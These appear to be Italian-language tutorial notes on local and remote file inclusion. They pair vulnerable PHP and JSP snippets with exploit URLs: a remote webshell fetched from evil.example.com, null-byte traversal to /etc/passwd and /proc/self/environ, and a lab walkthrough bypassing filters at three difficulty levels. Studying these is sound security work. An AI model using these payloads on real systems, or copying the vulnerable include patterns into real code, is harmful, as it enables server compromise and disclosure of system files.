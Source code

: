 ## File inclusion

- https://en.wikipedia.org/wiki/Remote_File_Inclusion
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Si ha questa vulnerabilità quando un'applicazione crea un path per il codice eseguibile usando una variabile che è sotto il controllo dell'attaccante,
in un modo che gli permette di controllare quale file viene eseguito.
Lo sfruttamento di una vulnerabilità di questo tipo permette una RCE sul server che esegue l'appicazione vulnerabile.

- Remote File Inclusion: l'applicazione scarica ed esegue un file remoto
- Local File Inclusion: come il RFI ma il file sfruttato è presente sul server

**PHP**

Funzioni che includono un file per l'esecuzione sono `include` e `require`.
La direttiva `allow_url_fopen` o `allow_url_include` (in `php.ini`) abilitata permette di usare una URL per scaricare un file remoto ed eseguirlo.
Anche se disabilitato è raggirabile con compressione (`zlib://`) o stream audio (`ogg://`) che non ispezionano il flag URL PHP interno.
Si possono sfruttare anche i wrapper PHP come `php://input`.

Codice vulnerabile:

```
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>

<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

Exploit:

```
/vulnerable.php?language=http://evil.example.com/webshell.txt?
/vulnerable.php?language=C:\\ftp\\upload\\exploit
/vulnerable.php?language=C:\\notes.txt%00
/vulnerable.php?language=../../../../../etc/passwd%00
/vulnerable.php?language=../../../../../proc/self/environ%00
```

**JSP**

Anche le JSP sono vulnerabili a Null byte injection (`%00`)

Codice vulnerabile:

```
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

Exploit:

```
/vulnerable.jsp?p=../../../../var/log/access.log%00
```

### File Inclusion - Low

```
// The page we wish to display
$file = $_GET[ 'page' ];
```

Exploit:

- RFI

	- creare il file `rfi-low.php` contenente `<?php phpinfo(); ?>`
	- accedere a `http://172.17.0.2/vulnerabilities/fi/?page=http://172.17.0.3/rfi-low.php`


- LFI: `http://172.17.0.2/vulnerabilities/fi/?page=/etc/passwd`

### File Inclusion - Medium

```
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file ); 
```

Exploit:

- RFI: `http://172.17.0.2/vulnerabilities/fi/?page=Http://172.17.0.3/rfi-low.php`  
	notare `Http` nell'URL della risorsa acceduta

- LFI: `http://172.17.0.2/vulnerabilities/fi/?page=/etc/passwd`

### File Inclusion - High

```
// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) { ... }
```

fnmatch — Match filename against a pattern

Exploit:

- LFI: `http://172.17.0.2/vulnerabilities/fi/?page=file:///etc/passwd`

